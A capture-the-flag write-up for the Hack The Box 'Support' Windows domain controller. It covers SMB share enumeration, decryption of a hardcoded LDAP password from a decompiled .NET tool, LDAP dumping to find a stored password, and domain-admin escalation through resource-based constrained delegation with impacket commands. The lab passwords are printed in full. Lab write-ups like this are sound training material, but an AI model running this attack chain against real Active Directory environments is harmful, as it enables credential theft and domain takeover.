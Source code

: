 ```yaml
---
title: "Support - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Support
![](https://kar0nx.github.io/assets/images/writeup/833a3b1f7f96b5708d19b6de084c3201.png)
## Reconnaissance

IP: 10.10.11.174
## NMAP

```
nmap -T4 -p- -A 10.10.11.174
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-14 15:05 UTC
Nmap scan report for 10.10.11.174
Host is up (0.028s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-14 15:07:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-14T15:08:27
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   27.97 ms 10.10.14.1
2   28.25 ms 10.10.11.174

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.98 seconds

```

add support.htb to /etc/hosts
## SMB

```
nxc smb 10.10.11.174 -u 'Guest' -p '' --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914170839.png)

Fast enumeration and we found support-tools shared folder 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914171404.png)

UserInfo.exe.zip looks promising, so let's grab it and check 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914171430.png)

nothing special in UserInfo.exe.config, so let's inspect UserInfo.exe it is net 32b file
So let's checkit with ILSpy
https://github.com/icsharpcode/AvaloniaILSpy/releases

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914173354.png)

In UserInfo.Services/Protected I found hashed password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914173612.png)

Normal base64 decode is not the way so as my programming knowledge sucks for now I searched google and found 

```
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

def decrypt_password(enc_password, key):
    array = base64.b64decode(enc_password)
    array2 = bytearray(array)

    for i in range(len(array)):
        array2[i] = (array[i] ^ key[i % len(key)]) ^ 0xDF

    return array2.decode()

decrypted_password = decrypt_password(enc_password, key)
print("Decrypted Password:", decrypted_password)
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914174520.png)

Great we have password, now let's check credentials 

```
nxc smb 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914174745.png)

Can't find anything useful so let's run bloodhound 

```
bloodhound-python -d support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -c all -ns 10.10.11.174
```

Cant find anything userfull for ldap user so let's enumerata ldap maybe username is hint

## LDAP

```
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap_dump
```

searching domain_users.json I found sth interesting info but it looks like password let's try it

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914180702.png)

Ironside47pleasure40Watchful
Now we can take user flag 

```
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914180909.png)

## Privilege Escalation

In bloodhound I found interesting connection between support user and dc 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914181053.png)

So we need to add fake computer:

```
impacket-addcomputer -dc-ip 10.10.11.174 -computer-pass test -computer-name test support.htb/support:Ironside47pleasure40Watchful
```

Next using GenericAll right we delegating our fake computer:

```
impacket-rbcd -action write -delegate-to "dc$" -delegate-from "test$" -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful
```

And last step is to imperonate administrator to request service ticket .ccache

```
impacket-getST support.htb/test$:test -spn www/dc.support.htb -impersonate administrator
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914182136.png)

Now export KRB5CCNAME and connect via smb

```
export KRB5CCNAME=administrator@www_dc.support.htb@SUPPORT.HTB.ccache
impacket-wmiexec -k -no-pass support.htb/administrator@dc.support.htb -dc-ip 10.10.11.174
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914182620.png)

Grab root flag

```
type c:\users\administrator\desktop\root.txt
```
